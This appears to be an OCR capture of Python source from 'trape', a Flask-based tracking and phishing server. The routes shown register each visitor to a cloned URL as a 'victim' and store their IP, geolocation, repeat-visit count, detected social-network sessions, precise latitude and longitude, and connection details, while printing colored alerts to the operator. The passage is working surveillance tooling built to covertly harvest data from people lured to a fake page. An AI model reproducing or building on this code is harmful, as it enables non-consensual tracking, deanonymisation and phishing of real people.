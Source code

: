 ```python
        utils.Go(utils.Color['white'] + "[" + utils.Color['blueBold'] + "*" + utils.Color['white'] + "]" + " A " + utils.Color['whiteBold'] + "user" + utils.Color['white'] + " has been connected from " + utils.Color['blue'] + victimGeo.ip + utils.Color['white'] + ' with the following identifier: ' + utils.Color['green'] + vId + utils.Color['white'])
        cant = int(db.sentences_victim('count_times', vId, 3, 0))

        db.sentences_victim('insert_click', [vId, trape.url_to_clone, time.strftime("%Y-%m-%d - %H:%M:%S")], 2)
        db.sentences_victim('delete_networks', [vId], 2)

        if cant > 0:
            utils.Go(utils.Color['white'] + "[" + utils.Color['blueBold'] + "*" + utils.Color['white'] + "]" + " " + "It\'s the " + str(cant + 1) + " time for " + utils.Color['green'] + str(vId) + utils.Color['white'] + "@" + utils.Color['blue'] + victimGeo.ip + utils.Color['white'])
            db.sentences_victim('update_victim', [victimConnect, vId, time.time()], 2)
            db.sentences_victim('update_victim_geo', [victimGeo, vId], 2)
        else:
            utils.Go(utils.Color['white'] + "[" + utils.Color['blueBold'] + "*" + utils.Color['white'] + "]" + " " + "It\'s the first time for " + utils.Color['green'] + str(vId) + utils.Color['white'] + "@" + utils.Color['blue'] + victimGeo.ip + utils.Color['white'])
            db.sentences_victim('insert_victim', [victimConnect, vId, time.time()], 2)
            db.sentences_victim('insert_victim_data', [vId], 2)
            db.sentences_victim('insert_victim_battery', [vId], 2)
            db.sentences_victim('insert_victim_geo', [victimGeo, vId], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/nr", methods=["POST"])
    def networkRegister():
~~        vId = request.form['vId']
~~        vIp = request.form['ip']
~~        vnetwork = request.form['red']
        if vId == '':
          vId = utils.generateToken(5)

        cant = int(db.sentences_victim('count_victim_network', [vId, vnetwork], 3, 0))

        if cant > 0:
            db.sentences_victim('update_network', [vId, vnetwork, time.strftime("%Y-%m-%d - %H:%M:%S")], 2)
        else:
~~            db.sentences_victim('insert_networks', [vId, vIp, request.environ['REMOTE_ADDR'], vnetwork, time.strftime("%Y-%m-%d - %H:%M:%S")], 2)
            utils.Go(utils.Color['white'] + "[" + utils.Color['greenBold'] + "+" + utils.Color['white'] + "]" + utils.Color['whiteBold'] + " " + vnetwork + utils.Color['white'] + " session detected from " + utils.Color['blue'] + vIp + utils.Color['white'] + ' ' + "with ID: " + utils.Color['green'] + vId + utils.Color['white'])
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/lr", methods=["POST"])
    def locationRegister():
~~        vId = request.form['vId']
~~        lat = request.form['lat']
~~        lon = request.form['lon']

        db.sentences_victim('location_victim', [vId, lat, lon], 2)
        return json.dumps({'status' : 'OK', 'vId' : vId})

    @app.route("/lc", methods=["POST"])
    def connectionRegister():
~~        vId = request.form['vId']
~~        con = request.form['con']
~~        host = request.form['host']

```